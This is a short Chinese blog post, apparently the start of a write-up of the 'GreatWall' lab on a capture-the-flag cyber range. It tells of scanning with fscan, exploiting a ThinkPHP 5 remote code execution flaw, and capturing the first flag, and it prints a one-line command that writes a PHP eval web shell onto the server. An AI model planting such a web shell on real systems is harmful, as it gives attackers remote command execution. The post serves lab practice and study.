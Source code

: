 ```yaml
---
title: 春秋云境笔记 - 1
date: 2025-04-09 15:57:00
tags: [Web, 渗透]
categories: 渗透
---
```


GreatWall / *
<!--more-->

## GreatWall

用 fscan 扫一下，直接就扫出是 tp5 的漏洞

用 PoC 直接 RCE，执行 `pwd` 看到当前目录为 `/var/www/html/background/public`

执行以下命令写一个 PHP 马，注意要使用单引号，双引号的话 `$_POST` 变量会被解析掉，导致写的马不对

```bash
echo '<?php @eval($_POST[cmd]);?>' > /var/www/html/background/public/test.php
```

在根目录拿到 flag01：`flag{176f49b6-147f-4557-99ec-ba0a351e1ada}`

// To be continued...
